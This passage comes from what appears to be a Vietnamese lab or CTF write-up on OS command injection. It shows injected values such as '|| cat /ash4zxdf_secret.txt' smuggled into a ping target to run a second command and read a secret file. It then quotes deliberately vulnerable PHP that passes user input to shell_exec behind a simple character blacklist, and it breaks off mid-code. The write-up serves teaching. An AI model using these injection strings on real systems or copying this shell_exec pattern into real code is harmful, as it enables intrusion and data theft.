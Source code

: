 - Còn dùng lệnh `||` ta sẽ thực hiện như sau:

    ```bash
    ping 8.8.8.10000 || ls /
    ```

    Khi ta sử dụng lệnh || thì tức ta muốn thực hiện lệnh `ls /` thì ta phải khiến cho lệnh ping sai.

    ![alt text](IMG/2/image-5.png)

    ```bash
    ping 8.8.8.10000 || cat /ash4zxdf_secret.txt
    ```

    ![alt text](IMG/2/image-6.png)

## LAB3

- LAB3 đã thực hiện fix lỗi của LAB2 đó chính là đã thực hiện chặn lun dấu `;`, `&&` và `||`.

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            if (strpos($target, ";") !== false) 
                die("Hacker detected!");
            if (strpos($target, "&") !== false) 
                die("Hacker detected!");
            if (strpos($target, "|") !== false) 
                die("Hacker detected!");
            switch($command) {
                case "ping":
                    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");